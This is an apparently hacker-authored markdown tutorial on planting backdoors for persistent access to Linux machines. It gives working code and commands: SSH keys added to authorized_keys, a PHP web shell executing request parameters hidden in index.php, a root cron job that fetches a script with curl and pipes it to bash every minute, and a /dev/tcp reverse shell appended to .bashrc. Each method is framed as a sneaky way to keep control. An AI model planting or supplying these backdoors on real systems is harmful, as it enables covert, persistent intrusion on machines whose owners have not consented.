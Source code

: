 # Linux Backd00rs!
## @Author : M3tr1c_r00t

### 1). We can use SSH-keys...
I know your gonna say that ssh-keys aren't backdoors.
But there is one thing you should note, you can login into ssh with a pty spawn, therefore, you can be a little bit more sneaky.
#### generating ssh-keys
```
ssh-keygen -f <FILE_NAME>
```
-f - saves the ssh -key in the current directory in the name that you will assign it.
After running the command, you are going to be asked to enter a password...
If you dont want to encrypt your ssh-keys, just press enter twice.

This is going to generate 2 files, the ssh private key and the public key.
You are going to be needed to add the ssh-public key into the user's .ssh directory.
If in that directory there is a file, "authorized_keys", you can copy the contents of your public key into that file.
After that, we can login to the system using ssh.
```
ssh User@IP -i PRIVATE_SSH_KEY
```
To login without a pty shell;
```
ssh User@IP -i PRIVATE_SSH_KEY -T
```
If the directory .ssh is not present, you can always create it.
NB./ This may not work if your user isnt permitted to use ssh -keys.

Plus, if you get an RSA private key, before using it, remember to give it the appropriate read permissions.
```
chmod 400 PRIVATE_RSA_KEY
```
But it isnt a must to do this on the files generated using ssh-keygen as it does this automatically.

### 2). PHP Backdoors...
We can add this in the web root directory which is usually located at /var/www/html
With that info, you can add any php malicious code in that directory and save it as a .php file...
Example code;
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```
You can also use the php reverse shell script.
You can also add the malicious code in between the files such as the index.php file which is a lot sneaky.

### 3). Cron Jobs...
If you want to view the cron job;
```
cat /etc/crontab
```
This represents all the tasks that are scheduled to run at some time on your machine.

well, we can add a cronjob to be sending us a reverse shell every minute...
```
* *     * * *   root    curl http://YOUR_IP:PORT/shell | bash
```
This is going to run this script after every minute,hour,day,etc.
We can add this to be into the shell file contents...
```
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
For this to work, we need to have set up our http.server so that the script will be able to get the file.
We also need to have set up our listener.

NB: You need to be the root user so as to be able to edit the /etc/crontab file.

### 4). [.bashrc] Backdoors....
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
Well, we can add this payload into the .bashrc file;
```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
This is going to send us a reverse shell anytime the user logs into the machine.









